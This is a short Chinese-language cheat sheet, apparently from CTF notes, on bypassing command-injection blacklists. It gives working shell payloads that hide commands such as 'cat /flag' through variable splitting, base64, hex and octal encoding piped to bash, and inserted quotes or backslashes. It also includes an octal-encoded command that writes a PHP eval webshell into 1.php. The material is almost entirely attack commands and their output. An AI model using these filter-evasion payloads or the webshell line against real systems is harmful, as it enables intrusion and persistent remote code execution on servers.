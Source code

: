 




####	黑名单绕过

1. 采用变量

   ```bash
   $ a=l;b=s;$a$b
   bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
   
   $ a=c;b=at;c=flag;$a$b $c
   flag{xxx}
   ```

2. 编码绕过

   ```bash
   $ echo "Y2F0IC9mbGFn"|base64 -d|bash
   flag{xxx}
   
   #base64_endcode("cat /flag") => Y2F0IC9mbGFn
   #base64可能会出现/
   
   $ echo "636174202f666c6167" | xxd -r -p|bash	#hex
   flag{xxx}
   
   $ $(printf "\154\163")							#oct
   bin  boot  dev	etc  flag  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
   
   $ $(cat /flag)
   bash: flag{xxx}: 未找到命令
   
   $ $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")
   flag{xxx}
   
   $ {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0
   flag{xxx}
   
   #可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
   $ {printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
   ```

3. 单引号双引号

   ```bash
   $ c"a"t /f''l'a'g
   flag{xxx}
   ```

4. 反斜线

   ```bash
   $ c\a\t /f\l\ag
   flag{xxx}
   ```
